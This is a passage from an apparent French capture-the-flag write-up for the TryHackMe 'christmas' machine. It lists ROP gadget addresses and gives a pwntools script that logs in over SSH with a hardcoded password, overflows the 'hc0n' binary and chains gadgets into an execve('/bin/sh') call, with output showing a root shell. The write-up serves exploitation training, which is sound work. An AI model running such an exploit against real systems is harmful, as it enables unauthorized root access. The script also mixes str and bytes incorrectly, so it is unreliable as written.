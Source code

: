 A partire de l'adresse du syscall nous allons prendre les bonnes valeurs des registres de retour. (sous gdb)

On a toutes les bonnes adresses.  

syscall 0x00000000004005fa
pop rax 0x40061f
pop rdi 0x400604  
pop rsi 0x40060d
pop rdx 400616
/bin/sh strings 0x00000000004006f8 

```python
from pwn import *
import sys

HOST = "christmas.thm"
PORT = 22

def SROP_exploit(r):
	pop_rax = 0x40061f
	pop_rdi = 0x400604
	pop_rsi = 0x40060d
	pop_rdx = 0x400616
	bin_sh = 0x4006f8
	syscall = 0x4005fa

	payload = bytes("A"*56, 'ascii')
	payload += str(p64(pop_rax))
	payload += str(p64(59)) # 59 for cveexe
	payload += str(p64(pop_rdi))
	payload += str(p64(bin_sh))
	payload += str(p64(pop_rsi))
	payload += str(p64(0x0))
	payload += str(p64(pop_rdx))
	payload += str(p64(0x0))
	payload += str(p64(syscall))

	print(r.recvline())
	r.sendline(payload)
	r.interactive()

if __name__== "__main__":
	r = ssh(host=HOST, port=PORT, user="thedarktangent", password="Gf7MRr55n$@#PDuliL")
	s = r.run('./hc0n')
	SROP_exploit(s)
```

On crée un scripte qui va exploiter le débordement et exécuter un shell.  

```bash
im@kali:~/Bureau/tryhackme/write-up$ python exploit-christmas.py 
[+] Connecting to christmas.thm on port 22: Done
[*] thedarktangent@christmas.thm:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.0
    ASLR:     Enabled
[+] Opening new channel: './hc0n': Done
b'What will you be having for dinner !! (: \n'
[*] Switching to interactive mode

# $ id
uid=0(root) gid=1000(thedarktangent) groups=1000(thedarktangent),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare)
```